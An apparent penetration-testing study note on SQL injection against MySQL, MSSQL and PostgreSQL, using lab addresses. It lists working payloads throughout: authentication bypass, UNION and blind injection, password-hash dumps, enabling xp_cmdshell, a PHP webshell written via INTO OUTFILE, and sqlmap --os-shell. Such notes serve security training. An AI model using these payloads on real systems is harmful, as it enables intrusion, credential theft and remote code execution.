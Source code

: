 ```yaml
---
tags: sqlmap
---
```

## DB types and variants

Two main types:
- MySQL (port 3306)
	- MariaDB
- Microsoft SQL Server (MSSQL)

### MySQL

Connect to remote MySQL instance:
`mysql -u root -p'root' -h 192.168.50.16 -P 3306`

Retrieve version:
`select version();` or `select @@version;`

Retrieve current database user:
`select system_user();`

Retrieve list of databases:
`show databases;`

Retrieve all tables in a specific database:
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'your_database_name';
```

Switch to a database:
```sql
use 'your_database_name'
```

Retrieve all column names in a specific table:
```sql
select column_name from information_schema.columns where table_schema = 'your_db';
```

Example: SELECT for the **user** and **authentication_string** value belonging to the **user** table, then filter for **offsec** user:
```sql
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
```

### MSSQL
Natively integrated into the Windows ecosystem

Connect to remote MSSQL instance:
`impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth`
	The `windows-auth` tag forces NTLM authentication (as opposed to Kerberos)

Retrieve version
`SELECT @@version;`

Retrieve user that MSSQL is running as
`select system_user;`

Retrieve all available databases:
```sql
SELECT name FROM sys.databases;
```
Note: *master*, *tempdb*, *model*, and *msdb* are default databases

Retrieve all tables in a database (e.g. `offsec`):
```sql
SELECT * FROM offsec.information_schema.tables;
```

Retrieve all records of a table (e.g. `users`):
```sql
select * from offsec.dbo.users;
```
- `dbo` is the table schema from the previous command

> Note: When using a command line tool (e.g. sqlcmd), we must submit our SQL statement with a `;` followed by a `GO` on the next line, but we can omit `GO` when running remotely.

### PostgreSQL

Connect:
`psql -U [username] -h 127.0.0.1`

List all databases:
`\l`

Switch to a database:
`\c <database_name>`

List tables in the current database:
`\dt`

Extract data from a specific table:
`SELECT * FROM <table_name>;`

Dumping Hashes
`SELECT usename, passwd FROM pg_shadow;`

## Manual SQL exploitation

> To test for SQLi, insert any special character (e.g. `'`). If SQL error message is returned, or we're able to retrieve the database content of our query inside the web application, it is called "in-band" SQLi and it is considered a security flaw.

Example: authentication bypass
- PHP code: `$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";`
- Payload: set the *uname* value to `' OR 1=1 -- //`
	- `--` is comment separator
	- `//` is for preventing any whitespace truncation by web app
- Will return the first user ID present in the database, because `1=1` is always true

If in-band, 
- can use `' or 1=1 in (select @@version) -- //` to retrieve MySQL version in the returned error message.
- dump all data inside *users* table: `' OR 1=1 in (SELECT * FROM users) -- //`
- dump a column *password* inside *users* table: `' or 1=1 in (SELECT password FROM users) -- //`
- specify which user's password to retrieve: `' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
- discover number of columns in table: `' ORDER BY 1-- //` (if the number in the query is greater than the number of columns, an error is returned)

### UNION-based payloads

> Enables execution of an extra SELECT statement, concatenating two queries in one statement

Conditions:
1. The injected UNION query must have the same number of columns as the original query
2. The data types must be compatible between the two columns

Note that you need to know the number of columns in the original query.

Example: web app returns the result of the query
- `' UNION SELECT null, null, database(), user(), @@version -- //`
	- Use `null` to shift enumerating functions to avoid type mismatches
	- Note that `%` is used as a wildcard in LIKE
- Enumerate *information_schema* of current database: `' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`
	- To enumerate another database, replace `database()` with `'another_database_name'`
- Dump table (use the table name and column names obtained from above enumeration): `' UNION SELECT null, username, password, description, null FROM users -- //`
- Enumerate all database names: `UNION SELECT null, schema_name, null, null, null, null from information_schema.schemata ;-- `

### Blind SQLi

> Blind SQLi: Database responses are never returned and behavior is inferred using either boolean- or time-based logic

Example: Boolean-based attack
``http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //`

Example: Enumerate username using time-based attack
`http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //`
	If the user is active, the application hangs for 3 seconds

## Manual and automated code execution

### Manual code execution

#### MSSQL

`xp_cmdshell` function takes a string and passess it to the command shell for execution. 
- Returns any output as rows of text
- Is disabled by default. If enabled, must be called with EXECUTE keyword
Example: `EXECUTE xp_cmdshell 'whoami';`

Enable *xp_cmdshell*:
1. `EXECUTE sp_configure 'show advanced options', 1;`
2. `RECONFIGURE;`
3. `EXECUTE sp_configure 'xp_cmdshell', 1;`
4. `RECONFIGURE;`

#### MySQL

No single function to escalate to RCE

Abusing SELECT INTO_OUTFILE statement to write files on server:
- Condition: File location must be writeable to the OS user running the database software
- `' UNION SELECT "[insert php webshell here]", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //`
- Note: If an error is returned related to incorrect return type, it should not impact writing the file.
- a php webshell: `<?php system($_GET['cmd']);?>`

### Automated code execution

> sqlmap is NOT stealthy as it generates a large amount of traffic

`sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user`
- `-u` to specify URL to scan
- `-p` to specify parameter to test

Dump entire database: 
`sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump`

POST request and full interactive shell:
1. Intercept POST request in Burp and save it to a text file
2. `sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"`
	- `-r`: specify the file containing the POST requst
	- `--os-shell`: inject full interactive shell
	- `--web-root`: specify the folder to write the shell to
3. When prompted, specify the language the web application is written in (e.g. php)





